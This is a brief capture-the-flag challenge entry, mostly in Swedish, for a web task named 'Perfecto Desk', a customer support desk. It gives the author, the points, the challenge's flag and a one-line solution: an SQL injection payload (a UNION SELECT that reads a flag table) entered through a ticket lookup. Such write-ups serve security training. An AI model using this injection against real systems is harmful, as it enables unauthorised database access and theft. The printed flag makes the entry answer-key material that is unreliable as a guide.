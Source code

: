 # Web: Perfecto Desk

- **Skapare:** Calle Svensson
- **Poäng:** 150
- **Antal lösningar:** ???

## Beskrivning

We run the best customer support desk in the world with an absolutely perfect track record.

Check it out at: URL

## Flag

`SSM{mayb3_n0t_dat_perfect0_4fter_ALL}`

## Lösning

Check ticket -> `' UNION SELECT 1,(SELECT flag FROM flag),2,3; #`


